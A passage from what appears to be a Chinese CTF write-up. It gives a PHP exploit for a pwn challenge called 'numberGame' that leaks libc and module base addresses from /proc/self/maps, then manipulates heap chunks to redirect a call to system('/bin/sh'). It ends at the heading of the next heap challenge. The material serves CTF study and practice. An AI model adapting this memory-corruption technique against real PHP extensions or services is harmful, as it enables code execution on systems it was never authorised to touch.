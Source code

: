 ```php

function p64($addr){
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
    return $addr;
}

function leakaddr($buffer){
    global $libc, $mbase;
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .* \/home\/l1qu1d\/pwn\/chall\/php_pwn\/numberGame\/numberGame.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

ob_start("leakaddr");
include("/proc/self/maps");
$buffer = ob_get_contents();
ob_end_flush();
leakaddr($buffer);
$libc_base = hexdec($libc[1][0]);
$game_base = hexdec($mbase[1][0]);
echo "Libc base => " . dechex($libc_base) . "\n";
echo "game base => " . dechex($libc_base) . "\n";


$offset = ($game_base + 0x4008) & 0xffffffff;
$system = $libc_base + 0x58750;
echo "offset => " . dechex($offset) . "\n";
echo "system => " . dechex($system) . "\n";


add_chunk(5, [0, 0, 0, 0x80000000, 0], "GeekCmore");
add_chunk(5, [0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef], "GeekCmore");
add_chunk(1, [0], "/bin/sh");
show_chunk(0);
edit_chunk(0, 18, $offset);

edit_name(1, substr(p64($system), 0, 6));
edit_name(2, "1")
?>
```

### 堆off by null：PwnShell

题目还是一个典型的堆菜单，分析结构体有点抽象，感觉是为了埋洞之后方便利用搞的：
